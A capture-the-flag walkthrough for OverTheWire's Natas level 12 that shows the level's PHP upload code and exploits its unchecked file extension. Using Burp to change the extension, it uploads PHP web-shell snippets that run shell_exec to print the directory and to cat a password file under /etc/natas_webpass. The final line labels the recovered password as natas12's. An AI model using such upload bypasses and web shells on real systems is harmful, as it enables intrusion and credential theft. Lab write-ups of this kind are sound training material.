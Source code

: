 # Natas Level 12
The ***URL*** to which you need to connect is *http://natas12.natas.labs.overthewire.org*. The ***username*** is *natas12* and the ***password*** is *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*. 

Lets check the [viewsource](http://natas12.natas.labs.overthewire.org/index-source.html) link.
```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
By analysing the php script we can inject some malicious scipts, But we've to use burp to change the extension :
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
Lets upload script.php
```php
<? $res = shell_exec('pwd'); echo "<pre>$res</pre>"; ?>
<!--/var/www/natas/natas12/upload -->
```
```php
<!-- You can use find command to find the password for this level but I expect that they are in the same dir -->
<? echo shell_exec('cat /etc/natas_webpass/natas13'); ?>
```
```
The password for natas12 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
